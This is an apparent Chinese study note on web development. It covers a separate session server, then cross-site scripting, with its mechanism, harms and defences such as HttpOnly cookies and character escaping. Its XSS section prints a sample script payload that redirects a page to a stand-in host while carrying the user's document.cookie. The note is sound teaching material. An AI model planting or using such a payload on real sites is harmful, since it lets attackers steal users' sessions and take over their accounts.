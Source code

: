 ### Session Server

使用一个**单独的服务器存储 Session 数据**，可以使用传统的 MySQL，也使用 Redis 或者 Memcached 这种内存型数据库。

优点：

- 为了使得大型网站具有伸缩性，集群中的**应用服务器通常需要保持无状态**，那么应用服务器不能存储用户的会话信息。Session Server 将用户的会话信息单独进行存储，从而**保证了应用服务器的无状态**。

缺点：

- 需要去实现存取 Session 的代码。

![img](https://gitee.com/CyC2018/CS-Notes/raw/master/docs/pics/27fce0c6-8262-4d11-abb4-243faa2a2eef.jpg)



# 攻击技术

##一、跨站脚本攻击(XSS，Cross Site Script)

### 概念

跨站脚本攻击（Cross-Site Scripting, XSS），可以**将代码注入到用户浏览的网页上**，这种代码**包括 HTML 和 JavaScript**。

### 攻击原理

例如有一个论坛网站，攻击者可以在上面发布以下内容：

```html
<script>location.href="//domain.com/?c=" + document.cookie</script>
```

之后该内容可能会被渲染成以下形式：

```html
<p><script>location.href="//domain.com/?c=" + document.cookie</script></p>
```

另一个用户浏览了含有这个内容的页面将**会跳转到 domain.com 并携带了当前作用域的 Cookie**。如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个 **Cookie 登录被攻击者的账号了**。

### 危害

- 窃取用户的 Cookie
- 伪造虚假的输入表单骗取个人信息
- 显示伪造的文章或者图片

### 防范手段

#### 1. 设置Cookie为HttpOnly

设置了 HttpOnly 的 Cookie **可以防止 JavaScript 脚本调用**，**就无法通过 document.cookie 获取用户** Cookie 信息。

#### 2. 过滤特殊字符

例如将 `<` 转义为 `&lt;`，将 `>` 转义为 `&gt;`，**从而避免 HTML 和 Jascript 代码的运行**。
